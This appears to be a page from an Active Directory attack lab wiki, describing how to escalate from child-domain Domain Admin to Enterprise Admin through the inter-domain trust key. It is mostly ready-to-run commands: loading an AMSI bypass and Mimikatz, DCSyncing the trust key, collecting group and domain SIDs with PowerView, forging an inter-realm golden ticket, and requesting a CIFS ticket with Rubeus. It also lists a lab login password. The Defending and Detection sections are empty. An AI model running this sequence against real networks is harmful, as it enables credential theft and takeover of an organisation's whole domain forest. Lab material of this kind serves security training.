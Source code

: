 # Trust key

## Attacking

### How it works

Once you gain Domain Admin privileges within the child domain its possible to get Enterprise Admin in the parent domain by generating a golden ticket in the child domain with the SID of the Enterprise Admin group.

### Tools



### Executing the attack

The attack is executed from the perspective of already gaining domain admin privileges. This is done in the unconstrained delegation section:

{% content-ref url="../delegation-attacks/unconstrained-delegation/" %}
[unconstrained-delegation](../delegation-attacks/unconstrained-delegation/)
{% endcontent-ref %}

1. For easy execution, login on `WS01` as the `Administrator` user with the password `Welcome01!`.
2. Start PowerShell as Administrator and load a amsi bypass and MimiKatz into memory.

![](<../../../.gitbook/assets/image (71).png>)

3\. DCsync the trust key with MimiKatz:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:amsterdam\bank$"'
```

![](<../../../.gitbook/assets/image (9).png>)

4\. Retrieve the SID of the enterprise Admins group, using PowerView:

```
Get-DomainGroup "Enterprise Admins" -Domain bank.local | Select-Object samaccountname, objectsid
```

![](<../../../.gitbook/assets/image (76).png>)

5\. Retrieve the domain SID from the child domain, using PowerView:

```
Get-DomainSid
```

![](<../../../.gitbook/assets/image (64).png>)

6\. Create a TGT for the krbtgt user and save it to disk with MimiKatz:

```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<SID CHILD DOMAIN> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /rc4:<TRUST KEY HASH> /service:krbtgt /target:<FQDN PARENT DOMAIN> /ticket:<PATH TO SAVE TICKET>"'
```

![](<../../../.gitbook/assets/image (72).png>)

7\. Create a TGS for the CIFS service with Rubeus.exe using the created TGT:

```
.\Rubeus.exe asktgs /ticket:trustkey.kirbi /service:CIFS/dc01.bank.local /dc:dc01.bank.local /ptt
```

![](<../../../.gitbook/assets/image (28).png>)

List the tickets:

![](<../../../.gitbook/assets/image (13).png>)

## Defending

### Detection



## References

